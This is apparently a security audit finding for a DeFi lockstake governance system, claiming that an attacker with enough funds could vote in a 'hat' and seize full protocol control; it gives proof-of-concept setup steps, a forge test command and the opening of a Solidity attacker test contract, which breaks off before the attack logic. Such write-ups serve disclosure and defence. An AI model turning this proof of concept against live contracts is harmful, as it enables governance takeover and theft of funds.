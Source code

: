 If the attacker could acquire a substantial amount of funds, they could select a `hat` by voting and gain full control of the protocol.

## Code Snippet
>PoC
1. Create `test/ALockstakeEngine.sol` in the root project directory.
<details><summary> test/ALockstakeEngine.sol</summary></details>

It is based on the `LockstakeEngine.t.sol` `setUp` function:
- Fixed imports
- Added `block.number` for caching RPC calls
- Added `chief` and `polling` contracts from mainnet
- Added the real `VoteDelegateFactory`

To see the diff, you can run `git diff`. Note: all other functions except `setUp` are removed from the file and the diff.

<details><summary>git diff --no-index  lockstake/test/LockstakeEngine.t.sol test/ALockstakeEngine.sol</summary></details>

2. Add the following `remappings.txt` to the root project directory.
```txt
dss-interfaces/=dss-flappers/lib/dss-test/lib/dss-interfaces/src/
dss-test/=dss-flappers/lib/dss-test/src/
forge-std/=dss-flappers/lib/dss-test/lib/forge-std/src/
@openzeppelin/contracts/=sdai/lib/openzeppelin-contracts-upgradeable/lib/openzeppelin-contracts/contracts/
@openzeppelin/contracts-upgradeable/=sdai/lib/openzeppelin-contracts-upgradeable/contracts/
solidity-stringutils=nst/lib/openzeppelin-foundry-upgrades/lib/solidity-stringutils/
lockstake:src/=lockstake/src/
vote-delegate:src/=vote-delegate/src/
sdai:src/=sdai/src/
```

3. Run `forge test --match-path test/ALSEH3.sol` from the root project directory.
```solidity
// SPDX-License-Identifier: AGPL-3.0-or-later

pragma solidity ^0.8.21;

import "./ALockstakeEngine.sol";

contract VoteDelegateLike {
    mapping(address => uint256) public stake; 
}

interface GemLike {
    function approve(address, uint256) external;
    function transfer(address, uint256) external;
    function transferFrom(address, address, uint256) external;
    function balanceOf(address) external view returns (uint256);
}

interface ChiefLike {
    function GOV() external view returns (GemLike);
    function IOU() external view returns (GemLike);
    function lock(uint256) external;
    function free(uint256) external;
    function vote(address[] calldata) external returns (bytes32);
    function vote(bytes32) external;
    function deposits(address) external returns (uint);
}

contract ALSEH3 is ALockstakeEngineTest {
    // Address used by the attacker, a regular EOA
    address attacker = makeAddr("attacker");
```